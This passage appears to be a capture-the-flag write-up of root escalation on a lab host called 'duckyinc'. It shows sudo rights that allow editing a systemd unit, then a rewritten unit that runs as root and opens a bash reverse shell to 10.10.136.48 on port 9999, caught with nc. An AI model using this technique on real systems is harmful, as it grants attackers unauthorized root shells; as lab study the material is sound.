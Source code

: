 check server-admin privilege `sudo -l`  
```
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl
        daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

we know we can change duckyinc to got root privilege.  
step 1. change duckyinc.service by sudoedit  
`sudoedit /etc/systemd/system/duckyinc.service`  
change user and group to root, and start can change /bin/bash -c 'bash -i >& /dev/tcp/10.10.136.48/9999 0>&1'
before
```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```  
After
```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.136.48/9999 0>&1'
#ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```  
step 2. nc port 9999
